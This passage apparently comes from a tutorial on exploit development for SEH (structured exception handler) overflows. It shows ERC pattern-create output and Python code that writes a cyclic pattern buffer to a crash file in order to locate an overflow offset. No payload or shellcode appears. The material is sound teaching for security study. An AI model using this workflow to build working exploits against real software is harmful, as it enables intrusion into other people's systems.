 <p align="center"><img src="/images/basics-of-exploit-development-2-seh-overflows/Pattern-Create.PNG"/></p>   
<p align="center"><i>ERC Pattern Create output.</i></p>

We can add this into our exploit code, so it looks like the following:
```
f = open("crash-2.txt", "wb")

buf = b"Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac"
buf += b"9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8"
buf += b"Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7A"
buf += b"i8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al"
buf += b"7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2An3An4An5An6An7An8An9Ao0Ao1Ao2Ao3Ao4Ao5Ao6"
buf += b"Ao7Ao8Ao9Ap0Ap1Ap2Ap3Ap4Ap5Ap6Ap7Ap8Ap9Aq0Aq1Aq2Aq3Aq4Aq5Aq6Aq7Aq8Aq9Ar0Ar1Ar2Ar3Ar4Ar5A"
buf += b"r6Ar7Ar8Ar9As0As1As2As3As4As5As6As7As8As9At0At1At2At3At4At5At6At7At8At9Au0Au1Au2Au3Au4Au"
buf += b"5Au6Au7Au8Au9Av0Av1Av2Av3Av4Av5Av6Av7Av8Av9Aw0Aw1Aw2Aw3Aw4Aw5Aw6Aw7Aw8Aw9Ax0Ax1Ax2Ax3Ax4"
buf += b"Ax5Ax6Ax7Ax8Ax9Ay0Ay1Ay2Ay3Ay4Ay5Ay6Ay7Ay8Ay9Az0Az1Az2Az3Az4Az5Az6Az7Az8Az9Ba0Ba1Ba2Ba3B"
buf += b"a4Ba5Ba6Ba7Ba8Ba9Bb0Bb1Bb2Bb3Bb4Bb5Bb6Bb7Bb8Bb9Bc0Bc1Bc2Bc3Bc4Bc5Bc6Bc7Bc8Bc9Bd0Bd1Bd2Bd"
buf += b"3Bd4Bd5Bd6Bd7Bd8Bd9Be0Be1Be2Be3Be4Be5Be6Be7Be8Be9Bf0Bf1Bf2Bf3Bf4Bf5Bf6Bf7Bf8Bf9Bg0Bg1Bg2"
buf += b"Bg3Bg4Bg5Bg6Bg7Bg8Bg9Bh0Bh1Bh2Bh3Bh4Bh5Bh6Bh7Bh8Bh9Bi0Bi1Bi2Bi3Bi4Bi5Bi6Bi7Bi8Bi9Bj0Bj1B"
buf += b"j2Bj3Bj4Bj5Bj6Bj7Bj8Bj9Bk0Bk1Bk2Bk3Bk4Bk5Bk6Bk7Bk8Bk9Bl0Bl1Bl2Bl3Bl4Bl5Bl6Bl7Bl8Bl9Bm0Bm"
buf += b"1Bm2Bm3Bm4Bm5Bm6Bm7Bm8Bm9Bn0Bn1Bn2Bn3Bn4Bn5Bn6Bn7Bn8Bn9Bo0Bo1Bo2Bo3Bo4Bo5Bo6Bo7Bo8Bo9Bp0"
buf += b"Bp1Bp2Bp3Bp4Bp5Bp6Bp7Bp8Bp9Bq0Bq1Bq2Bq3Bq4Bq5Bq6Bq7Bq8Bq9Br0Br1Br2Br3Br4Br5Br6Br7Br8Br9B"
buf += b"s0Bs1Bs2Bs3Bs4Bs5Bs6Bs7Bs8Bs9Bt0Bt1Bt2Bt3Bt4Bt5Bt6Bt7Bt8Bt9Bu0Bu1Bu2Bu3Bu4Bu5Bu6Bu7Bu8Bu"
buf += b"9Bv0Bv1Bv2Bv3Bv4Bv5Bv6Bv7Bv8Bv9Bw0Bw1Bw2Bw3Bw4Bw5Bw6Bw7Bw8Bw9Bx0Bx1Bx2Bx3Bx4Bx5Bx6Bx7Bx8"
buf += b"Bx9By0By1By2By3By4By5By6By7By8By9Bz0Bz1Bz2Bz3Bz4Bz5Bz6Bz7Bz8Bz9Ca0Ca1Ca2Ca3Ca4Ca5Ca6Ca7C"
buf += b"a8Ca9Cb0Cb1Cb2Cb3Cb4Cb5Cb6Cb7Cb8Cb9Cc0Cc1Cc2Cc3Cc4Cc5Cc6Cc7Cc8Cc9Cd0Cd1Cd2Cd3Cd4Cd5Cd6Cd"
```